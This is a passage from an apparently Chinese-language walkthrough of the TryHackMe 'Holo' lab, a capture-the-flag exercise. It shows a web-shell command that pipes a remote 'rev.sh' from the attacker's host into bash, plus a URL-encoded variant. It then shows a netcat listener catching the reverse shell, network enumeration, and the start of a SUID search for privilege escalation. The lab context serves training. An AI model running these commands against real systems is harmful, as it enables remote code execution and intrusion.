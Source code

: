 ```
```
curl http://192.168.100.1:8080/cmd.php?cmd=curl http://10.50.111.108/rev.sh|bash &
```

注意，cmd后面的命令要用urlencode转一次，规避特殊符号引起的麻烦

```
curl http://192.168.100.1:8080/cmd.php?cmd=curl%20http%3A%2F%2F10.50.111.108%2Frev.sh%7Cbash%20%26
```

横向到```L-SRV01```
```
┌──(root💀kali)-[~/tryhackme/holo]
└─# nc -lnvp 4242
listening on [any] 4242 ...
connect to [10.50.111.108] from (UNKNOWN) [10.200.114.33] 48736
bash: cannot set terminal process group (1845): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ip-10-200-112-33:/var/www/html$ whoami
whoami
www-data
ww-data@ip-10-200-112-33:/var/www/html$ ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc mq state UP group default qlen 1000
    link/ether 02:69:87:5e:18:71 brd ff:ff:ff:ff:ff:ff
    inet 10.200.114.33/24 brd 10.200.112.255 scope global dynamic eth0
       valid_lft 3441sec preferred_lft 3441sec
    inet6 fe80::69:87ff:fe5e:1871/64 scope link 
       valid_lft forever preferred_lft forever
3: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:5b:cf:7e:19 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
4: br-19e3b4fa18b8: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:39:fc:98:69 brd ff:ff:ff:ff:ff:ff
    inet 192.168.100.1/24 brd 192.168.100.255 scope global br-19e3b4fa18b8
       valid_lft forever preferred_lft forever
    inet6 fe80::42:39ff:fefc:9869/64 scope link 
       valid_lft forever preferred_lft forever
6: vethcde8a5c@if5: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master br-19e3b4fa18b8 state UP group default 
    link/ether 86:07:fe:d0:3a:b6 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet6 fe80::8407:feff:fed0:3ab6/64 scope link 
       valid_lft forever preferred_lft forever

```

## L-SRV01提权

枚举所有SUID

```
www-data@ip-10-200-112-33:/var/www/html$ find / -perm -u=s -type f 2>/dev/null
<var/www/html$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/bin/umount